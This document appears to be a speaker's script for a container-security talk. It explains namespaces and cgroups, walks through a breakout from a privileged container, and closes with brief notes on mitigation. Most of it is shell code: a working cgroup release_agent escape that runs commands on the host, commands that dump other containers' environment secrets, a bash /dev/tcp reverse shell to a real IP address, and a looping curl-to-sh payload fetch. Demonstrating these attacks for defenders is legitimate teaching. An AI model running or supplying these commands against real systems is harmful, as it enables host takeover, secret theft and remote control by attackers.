 # Script

# Container Security; Or, on how to became a crypto billionaire





# Intro
- Goal not to show how to break out of containers, but to show the dangers of not mitigating it. 
- Understanding containers in order to protect workload
- What is a container 
    1. Namespaces (what a process can see)
        - Mount
        - UTS (hostname)
        - IPC (posix message queues)
        - NETWORK (network, IP, routing tables, firewall rules, sockets, etc.)
        - PID (Process ID, PID-to-process)
        - CGORUP (system resource)
        - USER (Kernel UIDs, GIDs)
        - TIME (system clock)
    2. Cgroups (system resource limits)
    3. Union File system (overlayfs)
    
- What is container breakout, how is it commonly achieved?
    - privileged or SYS_ADMIN cap
    - run as root
    - shell access or critical vulnerability in app that provides Arbitrary Code Execution


## Run a "container" without Docker using Shell



## Breakout Walkthrough

1. We are root. Check running processes
    `ps afx`
2. We are namespaced, but are we a container?
    `cat /proc/1/mountinfo`
3. We are a container, but what kernel privileges do we have?
    `grep Cap /proc/1/status`
4. What's the cap value mean?
    `exit`
    `capsh --decode=<HEX>`
5. We are running as ROOT in a CONTAINER with full PRIVILEGES and no BOUNDARIES.
6. Breakout



# Breaking out of a container
## Running as privileged
- Running as privileged

## Demo with NFS server
- Show Kubernetes NFS document
- Run demo
  1. Deploy NFS server
  2. Exec into container
  3. Basic breakout - Show host processes
  4. Show envvar secrets of another container
  5. Run a new docker container
    - Show running, show that it doesn't appear in GKE workloads, connect to it.
  6. Run reverse shell from host


```shell
bash -i >& /dev/tcp/147.182.165.208/80 0>&1 &
```


```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps -afx > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat /output
```


```shell
echo '#!/bin/sh' > /cmd
echo "cat /proc/1762076/environ > $host_path/output.environ" >> /cmd
echo "cat /proc/103541/mounts > $host_path/output.mounts" >> /cmd
echo "ls /proc/103541 > $host_path/output.proc" >> /cmd
echo "ls /var/lib/docker/overlay2 > $host_path/output.o2" >> /cmd
echo "docker run -d --privileged nginx > $host_path/output.dockerrun4" >> /cmd
echo "docker ps > $host_path/output.dockerps" >> /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```


```shell
echo '#!/bin/sh' > /cmd
echo "cat /proc/762102/environ > $host_path/output.environ" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```


```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "while true; do curl https://reverse-shell.sh/147.182.165.208:80 | sh; done > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

```


# Mitigating attacks
- OPA / PSPs
  - Quick review of OPA, PSP, or both
- Kernel Security Modules (AppArmor/SELinux)
  - Review of AppArmor profile
  - Tools for generating AppArmor profiles
- ossec (limit syscalls)
  - strace to capture syscalls


### words
- enumerate
- enumeration


```shell
enumerate

process of having AppSec add service account




Enable PSP features (PSP) using gcloud
Verify PSP exists 
POD delete command
Pod Create command

